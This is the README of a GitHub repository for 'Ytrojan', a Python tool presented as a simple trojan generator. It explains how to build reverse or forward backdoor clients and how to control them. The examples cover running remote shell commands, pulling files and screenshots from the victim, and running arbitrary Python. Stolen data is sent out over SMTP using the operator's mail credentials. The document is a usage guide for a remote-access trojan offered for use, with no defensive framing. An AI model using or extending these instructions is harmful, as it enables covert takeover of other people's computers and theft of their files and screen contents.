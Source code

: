 # Ytrojan

Ytrojan 一个简易的木马生成工具

## 选择语言/Select Your Language

Zh-cn   En-us 

## 如何使用Ytrojan

用Python 3.10或以上版本的解释器运行Main-Cmd.py

运行结果
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### 使用generate命令生成被控端  

```
generate [选项] [路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向被控端
   当选项的值为1时 生成的为正向被控端
2. [路径] 被控端生成位置
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为被控端

当弹出 parameters $> 意味这您需要提供您想要的被控端功能
目前仅支持 shell,get,win,py

例如您想要被控端可以执行shell和py语句 您可以这样操作
parameters $>shell py

```  

### 使用connect命令连接正向木马的被控端

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向木马被控端的连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"ip $>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py username = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```




   
